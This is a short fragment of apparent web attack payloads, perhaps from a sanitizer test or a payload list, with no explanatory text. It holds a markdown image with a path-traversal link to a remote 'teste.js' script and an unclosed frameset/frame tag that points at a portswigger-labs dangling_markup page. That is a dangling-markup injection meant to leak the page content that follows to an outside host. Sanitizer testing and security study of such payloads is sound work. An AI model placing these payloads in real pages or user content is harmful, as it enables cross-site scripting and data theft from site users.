 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<frameset><frame src=http://subdomain1.portswigger-labs.net/dangling_markup/name.html name="
